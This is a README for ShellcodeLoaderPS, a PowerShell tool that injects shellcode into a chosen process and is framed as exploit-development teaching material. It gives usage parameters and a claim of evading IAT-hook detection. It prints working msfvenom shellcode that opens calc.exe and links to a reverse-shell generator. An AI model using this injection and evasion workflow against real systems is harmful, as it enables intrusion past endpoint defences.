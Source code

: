 # ShellcodeLoaderPS
Predominantly educational shellcode injector with overly verbose comments.  The idea is to be fairly
modular, and documented to be an educational resource for those getting into exploit development
(though choosing PowerShell is an interesting choice for exploit development).

**Key Points:**
- This tool does not utilize `Add-Type` or any embedded `C#` -- rather it utilizes custom delegates to wrap Win32 function pointers.  This prevents detection via Import Address Table (IAT) hooks.
- Supports multiple language formats for shellcode strings (e.g., `Python`, `C`, `C++`, `C#`).
- Contains standalone helper scripts to load Win32/Native API functions as well as custom structs into session.
  - This also includes Win32 examples to help manipulate the Win32 API intuitively.

## Usage
```
Parameters:
    -Shellcode  -->  Shellcode to execute (can be a byte array or string containing file path or bytes).
    -TargetPID  -->  Target process PID to inject into. 
    -Debug      -->  Pause execution and print shellcode address for process attachment.
    -Help       -->  Return Get-Help information.
```
![image](https://github.com/user-attachments/assets/8753c151-8cc4-4f19-90be-23a8c2a620c5)

### Shellcode Parsing
For supported shellcode, the `-Shellcode` parameter is intentionally undeclared and written to accept most shellcode formats. Currently supports strings `[string]` and byte arrays `[byte[]]`.
If a standard array `[array]` is used, the array will be converted to a string prior to language detection. If a byte array is used, no formatting will occur.

Below is a table of supported string formats:

| Format | Example |
| --- | --- |
| Path to Raw Shellcode | `.\shellcode.bin` |
| Python Shellcode      | `'b"\x45\x78\x61\x6d\x70\x6c\x65"'` |
| C Shellcode           | `'\x45\x78\x61\x6d\x70\x6c\x65'` |
| C++ / C# Shellcode    | `'{0x45,0x78,0x61,0x70,0x6c,0x65}'` |

### Architecture Support
Works with both `Windows PowerShell` and `PowerShell Core (Pwsh)`. Using 64-bit PowerShell sessions
allows for both 64-bit and 32-bit injection, whereas 32-bit sessions only allow 32-bit injection.

## Shellcode Examples

```powershell
# 32-bit Shellcode (C Format)
# > msfvenom -p windows/exec CMD=calc.exe -f c EXITFUNC=thread

$calc32 = '\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb\x8d\x5d\x6a\x01\x8d\x85\xb2\x00\x00\x00\x50\x68\x31\x8b\x6f\x87\xff\xd5\xbb\xe0\x1d\x2a\x0a\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00'

# 64-bit Shellcode (C# Format)
# > msfvenom -p windows/x64/exec CMD=calc.exe -f csharp EXITFUNC=thread

$calc64 = '{
0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x00,0x00,0x00,0x41,0x51,
0x41,0x50,0x52,0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,
0x60,0x48,0x8b,0x52,0x18,0x48,0x8b,0x52,0x20,0x48,0x8b,0x72,
0x50,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,0xc0,
0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,0x41,
0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,
0x42,0x3c,0x48,0x01,0xd0,0x8b,0x80,0x88,0x00,0x00,0x00,0x48,
0x85,0xc0,0x74,0x67,0x48,0x01,0xd0,0x50,0x8b,0x48,0x18,0x44,
0x8b,0x40,0x20,0x49,0x01,0xd0,0xe3,0x56,0x48,0xff,0xc9,0x41,
0x8b,0x34,0x88,0x48,0x01,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,
0xac,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,
0x4c,0x03,0x4c,0x24,0x08,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,
0x8b,0x40,0x24,0x49,0x01,0xd0,0x66,0x41,0x8b,0x0c,0x48,0x44,
0x8b,0x40,0x1c,0x49,0x01,0xd0,0x41,0x8b,0x04,0x88,0x48,0x01,
0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,
0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,
0x59,0x5a,0x48,0x8b,0x12,0xe9,0x57,0xff,0xff,0xff,0x5d,0x48,
0xba,0x01,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x48,0x8d,0x8d,
0x01,0x01,0x00,0x00,0x41,0xba,0x31,0x8b,0x6f,0x87,0xff,0xd5,
0xbb,0xe0,0x1d,0x2a,0x0a,0x41,0xba,0xa6,0x95,0xbd,0x9d,0xff,
0xd5,0x48,0x83,0xc4,0x28,0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,
0x75,0x05,0xbb,0x47,0x13,0x72,0x6f,0x6a,0x00,0x59,0x41,0x89,
0xda,0xff,0xd5,0x63,0x61,0x6c,0x63,0x2e,0x65,0x78,0x65,0x00
}'
```

For 32-bit reverse shell shellcode, check out my [genrev](https://github.com/tylerdotrar/genrev) project!
